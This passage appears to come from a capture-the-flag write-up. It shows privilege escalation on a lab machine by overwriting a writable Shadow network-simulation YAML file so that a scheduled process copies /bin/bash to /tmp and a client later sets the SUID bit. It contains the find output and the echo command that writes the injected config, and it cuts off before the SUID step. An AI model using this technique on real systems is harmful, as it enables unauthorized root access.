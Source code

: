 <h2>yml command injection</h2>

```bash
find / -user juno 2>/dev/null
/dev/shm/shadow.data
/dev/shm/shadow.data/sim-stats.json
/dev/shm/shadow.data/processed-config.yaml
/dev/shm/shadow.data/hosts
/dev/shm/shadow.data/hosts/server
/dev/shm/shadow.data/hosts/server/server.python3.10.1000.exitcode
/dev/shm/shadow.data/hosts/server/server.python3.10.1000.shimlog
/dev/shm/shadow.data/hosts/server/server.python3.10.1000.stderr
/dev/shm/shadow.data/hosts/server/server.python3.10.1000.stdout
/dev/shm/shadow.data/hosts/client3
/dev/shm/shadow.data/hosts/client3/client3.curl.1000.exitcode
/dev/shm/shadow.data/hosts/client3/client3.curl.1000.shimlog
/dev/shm/shadow.data/hosts/client3/client3.curl.1000.stderr
/dev/shm/shadow.data/hosts/client3/client3.curl.1000.stdout
/dev/shm/shadow.data/hosts/client2
/dev/shm/shadow.data/hosts/client2/client2.curl.1000.exitcode
/dev/shm/shadow.data/hosts/client2/client2.curl.1000.shimlog
/dev/shm/shadow.data/hosts/client2/client2.curl.1000.stderr
/dev/shm/shadow.data/hosts/client2/client2.curl.1000.stdout
/dev/shm/shadow.data/hosts/client1
/dev/shm/shadow.data/hosts/client1/client1.curl.1000.exitcode
/dev/shm/shadow.data/hosts/client1/client1.curl.1000.shimlog
/dev/shm/shadow.data/hosts/client1/client1.curl.1000.stderr
/dev/shm/shadow.data/hosts/client1/client1.curl.1000.stdout
/dev/shm/network-simulation.yml
/home/juno
```

After looking for files that stand out the yml file of network-simulation takes the award. And it is writable as postgres. The file contains basic client-server connectivity tests, the server of which starts 3 seconds after running and the clients start 5 seconds after. This means I can place a command to copy bash to a location in server and have the client add the SUID bit. 

```bash
echo "general:
  # stop after 10 simulated seconds
  stop_time: 10s
  # old versions of cURL use a busy loop, so to avoid spinning in this busy
  # loop indefinitely, we add a system call latency to advance the simulated
  # time when running non-blocking system calls
  model_unblocked_syscall_latency: true

network:
  graph:
    # use a built-in network graph containing
    # a single vertex with a bandwidth of 1 Gbit
    type: 1_gbit_switch

hosts:
  # a host with the hostname 'server'
  server:
    network_node_id: 0
    processes:
    - path: /usr/bin/cp
      args: /bin/bash /tmp/bash
      start_time: 3s
  # three hosts with hostnames 'client1', 'client2', and 'client3'
  client:
    network_node_id: 0
    quantity: 3
    processes:
```